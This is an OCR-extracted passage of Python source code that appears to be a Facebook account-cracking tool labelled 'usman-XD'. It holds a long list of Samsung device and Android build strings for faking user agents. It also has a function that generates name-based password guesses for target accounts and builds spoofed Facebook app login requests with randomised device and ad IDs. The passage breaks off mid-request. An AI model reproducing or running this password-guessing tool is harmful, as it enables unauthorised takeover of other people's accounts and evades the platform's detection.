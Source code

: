                                 continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
xxxxx=("GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
def api(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [usman-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',